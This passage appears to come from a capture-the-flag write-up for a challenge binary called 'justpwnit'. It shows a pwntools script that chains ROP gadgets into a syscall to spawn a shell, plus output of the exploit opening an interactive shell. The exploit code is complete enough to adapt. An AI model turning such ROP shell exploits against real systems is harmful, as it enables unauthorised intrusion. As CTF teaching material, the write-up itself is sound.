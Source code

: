 ``` python
pop_rsi = pwn.p64(0x4019a3)
pop_rdx = pwn.p64(0x403d23)
mov_rax_rdi_addr = pwn.p64(0x401ce7)
syscall = pwn.p64(0x4013e9)

# Payload
pld = zero + pop_rdi + writeable_addr + pop_rax + shell_string + mov_rax_rdi_addr + pop_rax + syscall_num + pop_rsi + zero + pop_rdx + zero + syscall

# Creates process, sends payload, and switches to interactive mode
def ptools():
    p = pwn.process("./justpwnit")
    p.sendline('-2')
    p.sendline(pld)
    p.clean()
    p.interactive()

# Writes payload to file "exp"
def write_to_exp():
    with open("exp", "wb") as f:
        f.write(b"-2\n")
        f.write(pld)

# Runs GDB with pwntools
def p_debug():
    p = pwn.process("./justpwnit")
    pwn.gdb.attach(p)
    p.sendline('-2')
    p.sendline(pld)

# No arguments runs the exploit and switches to interactive
# -g runs the process with gdb 
# Any other argument will write the payload to the file "exp"
if len(sys.argv) > 1:
    if sys.argv[1] == '-g':
        p_debug()
    else:
        write_to_exp()
else:
    ptools()
```

Here is the exploit getting shell:
``` 
 python3 ./exploit.py 
[+] Starting local process './justpwnit': pid 6741
./exploit.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('-2')
[*] Switching to interactive mode
$ echo hi
hi
$  
```

## Author: Joaquin Frommer
